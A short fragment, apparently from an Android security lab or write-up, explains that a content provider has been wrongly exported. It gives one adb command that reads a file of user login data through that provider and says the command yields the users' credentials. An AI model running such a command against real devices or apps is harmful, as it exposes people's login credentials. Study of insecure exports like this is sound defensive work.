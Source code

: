 To read the users login data from the wrongfully exported content provider via terminal, simply run

``
adb shell content read --uri content://com.dkronig.root.CustomContentProvider/login_data_readable.txt
``

in a terminal with adb installed, and the content provider will provide you with the sensitive user credentials.
